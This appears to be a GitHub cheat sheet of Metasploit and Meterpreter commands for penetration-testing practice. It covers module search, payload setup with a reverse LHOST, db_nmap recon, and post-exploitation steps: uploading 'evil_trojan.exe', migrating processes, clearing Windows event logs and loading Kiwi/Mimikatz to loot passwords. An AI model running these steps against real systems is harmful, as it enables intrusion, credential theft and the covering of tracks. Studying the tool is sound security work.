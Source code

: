 # Basic Commands I used for metasploit

## Links

[Exploit-db](https://www.exploit-db.com/docs/english/18229-white-paper--post-exploitation-using-meterpreter.pdf)
[Offensive-Security metasploit doc](https://www.offensive-security.com/metasploit-unleashed/)
[Rapid7 metasploit doc](https://docs.rapid7.com/metasploit/)
[Hackers-arise](https://www.hackers-arise.com/metasploit-1)

## Rough listing Metasploit

- `msfconsole` in bash starts the metasploit framework.
- `?/help` for starting help menu.
- `sessions` lists all the current sessions.
  - `sessions -i session_number` to interact with specified session
- `search <modulename>` searches module names and descriptions.
- `use <path_to_exploit_module/number_fromSearchResult>` select the module specified with the module path.
- `info` displys the module specified with the name.
- `get` gets/shows the value of a context specific variable.
- `getg` gets/shows the value of a global variable.
- `options` displays the available options for the module specified.
- `save` Saves the current settings and datastores in a settings file. Will be able to load again when started.
- `set <option> <value>` sets the value for the specified option for the selected module.
- `set payload` sets the payload to be used for the operation.
- `set <variable> <value>` sets the value of a context specific variable
- `setg <variable> <value>` sets the value of a global variable
- `show <category>` displays the options in specific category
- `spool` write a console.log output on the screen and in a file as well.
- `advanced` displays the advanced options for the module specified.
- `exploit` starts the process of exploitation after the module is selected and configured accordingly.
  - `exploit -j` starts the process of exploitation in the background
  - `exploit -i` starts the process of exploitation in interactive mode. Gives a meterpreter shell after exploitation.

## Rough listing Meterpreter

- `getuid` will return the username of the victim machine.
- `sysinfo` shows the information about the system
- `background` sends the meterpreter shell into the background and starts msf shell again.
- `clearev` Will clear application, system and security logs on a windows system.
- `download <filename>` downloads the specified file in the attacker machine.
- `edit <filename>` will start a vim like text editor in the victim machine.
- `execute [flags] <executable>` executes the specified executable in the machine.
- `upload evil_trojan.exe c:\\windows\\system32` uploads file in the victim machine.
- `ps` shows the running processes in the victim machine.
  - `migrate` is used for migrating processes. It's used for privilage escallation as some processes may run with more privilages.
- `shell` starts an interactive shell in the victim machine.
- `search <filename/pattern>` searches the specified file in the victim machine.

## Modules

`load <modulename>` loads the specified module

- `Exploit` holds all the exploit code
- `Payload` holds varius shellcodes
- `Auxiliary` holds code which verify if the machine is exploitable or not
- `Post` holds stuffs related to post exploitation
  - `run post/windows/gather/checkvm` checks if the machine is a vertual machine
  - `run post/multi/recon/local_exploit_suggester` checks the system and suggests possible exploit
- `Encoder` holds stuffs to obfuscate payloads and other stuffs
- `NOP` is used for buffer-overflow or ROP attacks

## Basic Step by Step

**Recon:**

- `db_nmap -sV <ip>`

## Getting data from the database

- `hosts` shows the hosts
- `services` shows the available services scanned by db_nmap
- `vulns` shows the detected vulnerabilities according to the service version. Must include `-sV` while scanning with nmap.

## Searching and Loading Exploits

- `search exploitname` will search for the exploit
- `use <path_to_exploit_module/number_fromSearchResult>` select the module specified with the module path.

## Useful Configurations

- `set LHOST 10.8.215.27` Set the LHOST to use vpn ip
- `set RHOSTS <remote IP>` set the RHOSTS to victim machine
- `set PAYLOAD <payload-path>` Set the payload to be used

## Post Exploitation

- `ps` lists all the processes running
- `migrate` tries to migrate to another process
  - `migrate process_id` to migrate to certain process
  - `migrate -N process_name` to migrate to a certain process.
- `getuid` gets the uid of the current user privilage we have
- `sysinfo` gets more information about the system. eg: OS, version, etc
- `getprivs` gets the privilages of the current user
- `upload <localdevicepath>` upload a file in the victim machine
- `run <modulename>` run a metasploit module
- `ipconfig` Shows the networking information
- `shell` will spawn a normal system shell in victim machine
-

### Mimikatz -> Kiwi

Used for looting password files

- `load kiwi`